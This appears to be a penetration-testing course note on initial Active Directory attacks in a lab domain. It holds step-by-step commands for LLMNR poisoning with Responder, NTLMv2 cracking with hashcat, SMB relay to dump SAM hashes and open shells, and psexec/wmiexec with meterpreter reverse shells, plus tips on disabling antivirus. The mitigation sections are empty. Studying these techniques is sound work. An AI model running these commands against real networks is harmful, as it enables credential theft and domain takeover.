



### Attacking AD - Initial Attack Vectors

### 1. NetBIOS and LLMNR Name Poisoning 

### 2. Relay attacks

### 3. MS17-010 (Eternal Blue)

### 4. Kerberoasting

### 5. mitm6

Resource: https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa

### LLMNR Poisoning (Link Local Multi-Cast Name Resolution)

**What is LLMNR?**
- Used to identify hosts when DNS fails to do so
- Previously NBT-NS (NetBIOS Name Service)
- Key Flaw is that the service utilises a user's username and NTLMv2 hash when appropriately responded to



Tools: ImPacket Toolkit - Responder https://github.com/fortra/impacket

1. Run Responder


Best time to run responder is first thing in the morning or right after lunch. It requires a lot of traffic. You need a lot of responses to try and capture hashes.

2. An event occurs


3. Receive hashes



4. Crack hashes

```sh
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```


**Using Responder**

```sh
responder -I eth0 -rdwv
```
- v - verbose 

With both the Windows Server and Windows machine started. On our Windows machine open up file share and enter:
```sh
\\<attacker-ip>
```
- Then hit enter and it should capture the hash

---
### Password Cracking with HashCat

When cracking NTLMvs hashes you need to copy the whole thing into a file starting at the username. For example, with the screenshot used in receive hashes (number 3) we'd copy from fcastle. 

The command used is also above but i'll add it again:
```sh
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```
- 5600 - The code for hashcat for NTLMv2
- m - Hash type 

How to search hashcat quickly to avoid looking through the massive list of hash types it can crack
```sh
hashcat --help | grep "NTLM"
```

PimpMyKali installs Seclists onto Kali when you use it to setup a new VM but if isn't already installed you can get it from here: https://github.com/danielmiessler/SecLists

Hashcat should be ran on your host computer not inside the VM because it works using the GPU. You can add your wordlists in the same directory as the hashes, for easy access.

If you are using windows then use the following command:
```sh
hashcat64.exe -m 5600 hashes.txt rockyou.txt -O
```
- O - Optimise. Makes it run a little faster 

If it's a business try using the company name with crunch to make a custom wordlist.

---
### LLMNR Poisoning Mitigation


---
### SMB Relay

**What is SMB Relay?**
Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access.

**Requirements**
- SMB signing must be disabled on the target
- Relayed user credentials must be admin on the machine

1. We need to modify `responder.conf` so that both SMB and HTTP is in the off state, which means that we will be listening but not responding.

2. Run Responder
```sh
python3 Responder.py -i tun0 -rdw
```
- You'll notice this time in the Responder interface that both the SMB and HTTP servers will be off.

3. Setup your relay 
```sh
python3 ntlmrelayx.py -tf targets.txt -smb2support
```
- We might need to use normal python for this and not python3

4. An event occurs. We can fire the event again by using the same method we used previously `\\<attacker-ip>` 

5. ntlmrelay dumps the SAM hashes


A SAM file is like the Linux shadow file it contains the usernames passwords

_Lab Update: Make sure the Windows VM has Network Discovery turned on_
- Click on Network and click the top bar in blue to turn it on.

### Discover Hosts with SMB Signing Disabled 

**Using nmap**
```sh
nmap --script=smb2 security-mode.nse -p445 10.0.2.0/24
```
- Use the IP of the netwrok that you're on


**Disabled by default for any workstation and enabled and required on every server.**
You can not relay to the server but if the workstation has it on it will say `enabled but not required` 

You can add the workstation that has it enabled into a file for use in the relay attack.

### SMB Relay Attacks Part One

Edit the responder config file at `/etc/responder/Responder.conf`to turn off SMB and HTTP.

Start responder:
```sh 
responder -I eth0 -rdwv
```

Start ntlmrealy 
```sh
ntlmrelayx.py -tf targets.txt -smb2support
```

We can fire the attack like we did before by opening file explorer and typing in the search bar:
```sh
\\<attacker-ip>
```

If successful it will dump the SAM hashes. Copy and save the usernames and hashes. We could now try to crack the hashes or perform a pass the hash attack.

### SMB Relay Attacks Part 2

**How to get a shell**

Getting setup to perform the attack:

```sh
responder -I eth0 -rdwv
```

```sh
ntlmrelayx.py -tf targets.txt -smb2support -i
```
- i - interactive (shell)

Trigger the event:
```sh
\\<attacker-ip>
```

This will provide a link to a shell running on local host. We can interact with it using netcat:
```sh
nc 127.0.0.1 11000
```
- Add the address it gives you
- We can type help for a list of commands

Get access to the C: drive.

List shares
```sh
shares
```

Use share
```sh
use c$
```

`ls` to view drive directories. 

Get access to the admin directory

```sh
use ADMIN$
```

Some useful things you can do with this is GET and PUT files, change password for user etc.

You can also use ntlmrealsx to get a meterpreter session. First you would create a payload with MSFVenom and store it in a file, then setup a listener in metatsploit, and finally use the command:
```sh 
ntlmrelayx.py -tf targets.txt -smb2support -e payload.exe
```

Use a command
```sh
ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```
- Or use a powershell reverse shell 

---
### SMB Relay Mitigation



---
### Gaining Shell Access

**What can we do if we have a username and password?**

Utilise metasploit
```sh
msfconsole
```

```sh
search psexec
```

`explot/windwos/smb/psexec`
```sh
use 10
```

```sh
options
```
- set rhosts

Set victim details
```sh
set smbdomain marvel.local
```

```sh
set smbpass Password1
```

```sh
set smbuser fcastle
```

Set payload
```sh
set payload windows/x64/meterpreter/reverse_tcp
```

Set lhost
```sh
set lhost eth0
```

```sh
run
```
- Might need to try running it a few times
- Experiment with targets

```sh
options
```

```sh
set payload 2
```
- 2 - native upload
- Make sure windows defender is turned off

Try using the python version
```sh
psexec.py --help
```

```sh
psexec.py marvel.local/fcastle:Password1@<victim-ip>
```
- Anti virus can still pick this up but it doesn't always get it

More alternatives:
```sh
smbexec.py marvel.local/fcastle:Password1@<victim-ip>
```

```sh
wmiexec.py marvel.local/fcastle:Password1@<victim-ip>
```

Don't give up on the first tool, there are always alternatives. psexec is one of the more noisy tools, start with smb and wmi. See if you can find out what anti-virus is running and see if you can disable it.


